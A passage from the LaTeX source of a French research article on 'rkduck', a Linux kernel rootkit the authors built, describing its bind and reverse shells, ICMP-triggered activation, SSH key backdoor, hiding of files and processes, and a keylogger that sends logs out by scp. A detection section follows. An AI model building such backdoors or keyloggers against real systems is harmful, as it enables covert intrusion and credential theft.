            Un bind-shell correspond, dans notre cas, à un serveur socket attendant une connexion de la part de l'attaquant afin d'exécuter des commandes shell sur la machine cible. Dans cette optique, un serveur socket basique a été mis en place au sein du rootkit. Ce serveur attend les connexions entrantes sur un port spécifique fixé lors de l'injection du rootkit. Une fois la connexion établie, le serveur va attendre les commandes envoyées par l'attaquant, les exécuter et récupérer le résultat avant de le renvoyer au destinataire.
            
\begin{figure}[H] 
\begin{center}

\includegraphics{./img/bind-shell.png}

\caption[dsfsdf]{bind shell}
\end{center}
\end{figure}
            
            L'exécution des commandes se fait via un appel à la fonction \texttt{ call\_usermodhelper(...)}. Comme il n'est pas possible de récupérer le résultat des commandes directement, la sortie standard a été redirigée vers un fichier temporaire \texttt{/tmp/.cmd} caché par \texttt{rkduck}. Le résultat est lu puis renvoyé à l'attaquant. Lorsque la connexion est interrompue, le fichier contenant le résultat de la dernière commande est supprimé.
            
        \subsubsection{Reverse shell}
            
            Le reverse shell est l'inverse du bind-shell dans le sens où ce n'est pas le rootkit qui va se positionner comme serveur, mais l'attaquant. Le rootkit, qui sera client, va initier la connexion. Cela nécessite que l'adresse IP soit renseignée avant que le rootkit ne soit injecté. Lorsqu'il reçoit les commandes shell envoyées par l'attaquant le rootkit va se comporter exactement comme le bind shell. Il va copier le résultat dans un fichier temporaire, lire le fichier et renvoyer son contenu.
            
\begin{figure}[H] 
\begin{center}

\includegraphics{./img/reverse-shell.png}

\caption[dsfsdf]{reverse shell}
\end{center}
\end{figure}
            
        \subsubsection{Activation des backdoors}
            
            L'attaquant peut choisir le mode de fonctionnement de la backdoor (bind shell, reverse shell) suivant la situation. Cela est rendu possible grâce au programme de contrôle \texttt{Crumbs} dont le fonctionnement est détaillé dans la section ~\ref{sec:crumb}. 
			Afin d'assurer le caractère furtif de notre rootkit, la backdoor ne peut être active constamment. C'est pourquoi, indépendamment du mode de fonctionnement, il est possible d'activer la backdoor à l'aide de paquets ICMP contenant un payload spécifique connu uniquement de l'attaquant.             
            
%Tout d'abord, l'attaquant choisit d'activer l'une des deux backdoor suivant la situation. Il peut activer et désactiver les backdoors via \textbf{Crumbs} comme nous l'expliquerons dans la partie (voir section~\ref{sec:crumb}). 
%Ensuite il serait inconscient de laisser un bind-shell en écoute toute la journée si on veut rester le plus discret possible. Pour le reverse-shell il faut aussi lui donner un signal pour qu'il puisse se connecter à l'attaquant, nous avons pour cela décidé que la backdoor pourrait s'activer en envoyant un paquet ICMP avec un payload spécifique. Ce payload serait seulement connu de l'attaquant et seul lui peut donc se connecter à sa backdoor.

C'est dans ce but qu'un pare-feu basique a été ajouté à l'intérieur du rootktit. Il va intercepter les paquets et vérifier leur type ainsi que leur contenu. S'il reçoit un paquet ICMP contenant le bon payload et ayant une taille de 10 octets, alors la backdoor sera activée :
\begin{itemize}
 \item \textbf{reverse shell} : le rootkit va tenter de se connecter à l'adresse IP de l'attaquant.
 \item \textbf{bind shell} : le rootkit va se mettre en écoute et attendre une connexion venant de l'attaquant.
\end{itemize}

    Il est également possible que les paquets soient filtrés par un firewall externe et que, par exemple, les paquets ICMP comportant un payload soient rejetés. L'attaquant n'aurait alors aucun moyen d'accéder à la machine compromise. C'est pourquoi un timer a été mis en place. Son rôle sera d'activer la backdoor toutes les 12h. Le temps est configurable par l'utilisateur à l'injection du rootkit.
        
\begin{figure}[H] 
\begin{center}

\includegraphics{./img/timer-shell.png}

\caption[dsfsdf]{timer shell}
\end{center}
\end{figure}
                    
            
        \subsubsection{Backdoor SSH}
        
        	Dans le cas où le défenseur déactiverait ou contrôlerait tous les ports non conventionnels, une backdoor SSH a été mise en place. De manière générale, il est rare que le port SSH soit désactivé. C'est d'autant plus le cas sur des machines faisant office de serveurs. L'attaquant est libre de l'activer ou non, directement à l'insertion du rootkit ou par la suite à l'aide de \texttt{Crumbs}. \texttt{rkdcuk} va placer la clé publique de l'attaquant dans le fichier \texttt{~/.ssh/authorized\_keys} de l'utilisateur \texttt{root}. Cela présuppose que la machine cible est accessible depuis l'extérieure du réseau où elle se trouve et que l'utilisateur \texttt{root} puisse se connecter en SSH. \\
            
            Cette backdoor, dont l'utilisation n'est pas recommandée, est considérée comme une option de secours dans le cas où les autres ne fonctionneraient plus. Non seulement elle n'est pas robuste, car il suffit au défenseur de supprimer la clé publique dans le fichier \texttt{authorized\_keys}, mais elle crée également des logs parasitent, notamment lors de la connexion, pouvant éveiller les soupçons. Toutefois, elle peut éventuellement permettre de faire des modifications sur le rootkit, les ports utilisés, etc. Toutefois, il vaut mieux utiliser le rootkit via les backdoors décrites précédemment.
            
    \subsection{Application de contrôle du rootkit}
    \label{sec:crumb}

        Une fois que le rootkit est compilé et inséré en mémoire, il efface ses traces et nous n'avons plus le contrôle sur ce dernier. En effet, il devient impossible de le retirer via des commandes classiques telles que \texttt{modprobe} ou \texttt{rmmod} pour pouvoir le modifier et le réinsérer. C'est pourquoi nous avons cherché un moyen de pouvoir communiquer avec le rootkit une fois chargé. Cette solution se présente comme une application en espace utilisateur nommée \texttt{Crumbs}. \\

        Afin d'avoir une interface entre l'espace utilisateur et l'espace noyau, des \texttt{Netlink} sockets sont utilisées. Au niveau de l'espace utilisateur ces sockets ont une utilisation similaire aux sockets traditionnelles et en espace noyau elles se présentent comme une API pouvant être utilisée par les modules kernel. \\

        Afin d'envoyer des informations depuis \texttt{Crumbs}, nous avons créé un protocole basique. La communication se base sur un modèle maître-esclave où le rootkit ne fera qu'acquitter la réception des commandes envoyées par \texttt{Crumbs}. \\
        Les commandes sont envoyées au rootkit sous forme de chaînes de caractères possédant le format suivant:

        \texttt{"command\_id:command\_argument"}\\
        Le rootkit va répondre par "0" (erreur) ou "1" (réussite) pour notifier l'application du résultat de la commande précédente.

        \begin{figure}[H] 
        \begin{center}
        
\includegraphics[scale=0.5]{./img/crumbs-help.png}

        \caption[dsfsdf]{Écran d'aide de Crumbs}
        \end{center}
        \end{figure}

        \texttt{Crumbs} possède actuellement 9 commandes permettant de contrôler \texttt{rkduck}.
        \begin{itemize}
            \item \textbf{authenticate} Avant de pouvoir utiliser \texttt{rkduck} il faut que l'utilisateur utilisant \texttt{Crumbs} puisse s'authentifier en lui donnant un mot de passe qui sera validé ou non par \texttt{rkduck}. Le mot de passe est hardcoded dans le rootkit.
            \item \textbf{activate-ssh} Activation de la backdoor SSH. 
            \item \textbf{deactivate-ssh} Désactivation de la backdoor SSH.
            \item \textbf{hide-file} Dissimulation du fichier passé en argument.
            \item \textbf{unhide-file} Révèle le fichier passé en argument.
            \item \textbf{hide-process} Dissimulation du processus passé en argument.
            \item \textbf{unhide-process}Révèle le processus passé en argument.
            \item \textbf{remote-ip} Modification de l'adresse IP distante de l'attaquante utilisée par le reverse shell.
            \item \textbf{mode} Modification du mode de fonctionnement de la backdoor (bind shell ou reverse shell).
        \end{itemize}
        
        Il reste encore de nombreuses commandes à ajouter à cet outil de contrôle, mais le principe général étant en place, il est facile de le personnaliser pour l'adapter aux besoins de l'attaquant.

    \subsection{Keylogger}
        
        Un keylogger est un programme enregistrant toutes les entrées sur le clavier. Cela permet de garder une trace des informations sensibles de l'utilisateur telles que ses mots de passe, son numéro de carte bancaire, etc. \\ 
        
        % Bien qu'il puisse être utilisé légitimement dans des cas comme l'activation du contrôle parental ou afin de surveiller les employés, il peut l'être aussi à des fins totalement illégitime. L'intérêt  de cette collecte pour un attaquant est de pouvoir récupérer des informations sensibles tel que des passwords, numéros de carte bancaire etc. \\
        
        Le rôle de notre \href{https://github.com/QuokkaLight/rkduck/blob/master/rkduck/keylogger.c}{keylogger} est rempli via la fonction \texttt{register\_keyboard\_notifier} qui va surveiller toutes les interactions avec le clavier (touche pressée, touche relevée) au niveau kernel. Lorsqu'une touche est pressée la fonction renvoie une valeur qui correspond au numéro de sa position sur le clavier. Par exemple "ESC" est en première position, "\&" en deuxième, tandis que "a" est à la 16\textsuperscript{ème} position.
        
        Nous avons reproduit un tableau de caractères contenant les touches du clavier. Ce tableau est différent si les touches Caps Lock, Shift ou Alt sont activées. De plus, suivant la région, le clavier peut posséder différentes configurations (azerty, qwerty, qwertz, etc.). Les claviers supportés pour l'instant sont les configurations azerty et qwerty standard. Il est possible d'en ajouter de nouvelles suivant le besoin. L'attaquant doit définir avant l'insertion du rootkit dans quelle configuration il veut que les événement clavier soient enregistrés. Le tout est sauvegardé à chaque retour de ligne dans un fichier temporaire.         
        %Cette action se fait avec des thread pour ne pas que l'utilisateur ne subisse de ralentissement sur sa machine et suspecte quelque chose.
        Enfin, un callback est présent pour envoyer le contenu de ce fichier toutes les 6 heures chez l'attaquant. Cela est effectué, pour l'instant, via la commande \texttt{scp}. L'attaquant doit évidemment préciser l'adresse IP de la machine et le nom d'utilisateur associé afin que les fichiers soient envoyés.
                
\section{Détection du rooktit}
    
    La détection consiste à regrouper des informations mettant en évidence la présence d'un rootkit. Elle consiste essentiellement en deux étapes\cite{detection}:
    \begin{itemize}
    	\item La recherche d'anomalies telle qu'une activité inhabituelle de la charge CPU alors qu'aucun programme n'est lancé, une activé réseau importante à des heures inhabituelles. La vérification des répertoires comme \texttt{/dev} pour surveiller les périphériques, de permissions anormales sur des fichiers, des processus, etc.
    	\item La comparaison des signatures des modules kernel avec les signatures connues de rootkits. Cependant cette méthode ne permet pas de détecter les nouvelles menaces avant une mise à jour du logiciel ajoutant les signatures des nouveaux rootkits.
    \end{itemize}
    
    Il existe plusieurs logiciels de détection de rootkit sous Linux. Nous citerons notamment:
    \begin{itemize}
    	\item RkHunter ;
    	\item Chkrootkit ;
    	\item OSSEC avec RootCheck ;
    	\item Lynis ;
    	\item Tiger.
    \end{itemize}
    
    Un lancement quotidien de ces logiciels via un cron job permettrait de vérifier la présence d'éléments malveillants dans le noyau. Cependant, il est possible pour un attaquant de bloquer les connexions lorsque le logiciel se met à jour ou falsifier l'analyse de ces outils. 
    
    %Il s'agit du jeu du chat et la souris et parfois leurs utilisation est moins profitable que de placer un MITM et de regarder le trafic réseaux. C'est le cas des IDS (Intrusion detection system) qui vont chercher via les logs une activité suspecte\cite{honeypot}. Malheureusement les IDS si ils sont utilisés en temps réel ont un coup sur les performance du système et vont souvent être lancé après coup, pendant la nuit par exemple. \\
    
    L'utilisation de honeypots sur un réseau, en supposant que ce dernier soit suffisamment isolé des environnements réels, est un moyen sûr permettant de récupérer les nouveaux rootkits. Cela permettrait de le désassembler et d'étudier son fonctionnement afin d'établir de nouvelles règles pour les IDS ou ajouter des signatures aux programmes de détection listés ci-dessus.
   
    Les outils présentés dans cette partie ne garantissent pas une détection à 100\% et, même si le rootkit est découvert, il faut encore pouvoir le supprimer. Certains rootkits sont pensés pour être robustes et s'injectent si profondément dans la machine, qu'il est impossible de s'en défaire à moins de réinstaller le système entièrement.

\section*{Conclusion}
\addcontentsline{toc}{section}{Conclusion}
    
	Au travers de cet article, nous avons pu étudier et détailler différentes techniques et fonctionnalités utilisées par les rootkits. Nous avons également adapté ces dernières aux kernel Linux 4.x.x. \texttt{rkduck}, le LKM rootkit que nous avons développé et illustrant nos recherches, possède aujourd'hui une première version fonctionnelle, mais basique. Il reste encore certaines choses à améliorer.
	Notre rootkit n'utilise aucune technique d'obfuscation et le simple fait de désassembler le code donne toutes les informations dont un administrateur a besoin pour s'en défaire. Un autre point important est l'absence de moyens de communications chiffrées mis à part \texttt{SSH}. Il pourrait être intéressant d'inclure cette fonctionnalité afin qu'une entité extérieure (administrateur, NIDS, etc.) ne puisse lire le contenu des paquets assurant la communication vers le serveur de l'attaquant. Cependant, cela nécessiterait une application cliente côté attaquant comprenant le protocole de communication et implémentant la méthode de chiffrement utilisée. Une dernière idée d'amélioration pourrait être de trouver une méthode d'injection plus fiable qu'espérer que les modules noyaux soient activés. Cela nécessiterait l'utilisation d'exploits kernel, mais rendrait l'injection plus sûre.

\newpage

\addcontentsline{toc}{section}{References}
\bibliographystyle{plain}
\begin{thebibliography}{9}

\bibitem{turbochaos} 
Tyler Borland.\\
Modern Linux Rootkits 101,
\\\texttt{http://turbochaos.blogspot.fr/2013/09/linux-rootkits-101-1-of-3.html}

\bibitem{suterusu}
Suterusu: An LKM rootkit targeting Linux 2.6/3.x on x86(\_64), and ARM,
\\\texttt{https://github.com/mncoppola/suterusu}

\bibitem{sstic}
Éric Lacombe, Frédéric Raynal et Vincent Nicomette.\\
De l’invisibilité des rootkits : application sous Linux,
\\\texttt{http://esec-lab.sogeti.com/static/publications/07-sstic-rootkits\_article.pdf}

\bibitem{spacelkm}
SpaceWalker.\\
Indetectable Linux Kernel Modules,
\\\texttt{http://www.ouah.org/spacelkm.txt}

\bibitem{hackin9}
Chico Del Rio.\\
Rootkits : à la pointe de la technologie,
\\\texttt{http://tinyurl.com/zx4wk92}

\bibitem{honeypot}
Raynal Frédéricn Yan Berthier, Philippe Biondi, Danielle Kaminisky.\\
Honeypot Forensices Part I: Analyzing the Network,
\\\texttt{http://folk.uio.no/ingardm/sysarp/honeypot\_forensics\_1.pdf}

\bibitem{detection}
Ashwni Ramaswamy.\\
Detecting kernel Rootkits,
\\\texttt{http://www.ists.dartmouth.edu/library/409.pdf}




\end{thebibliography}

\end{document}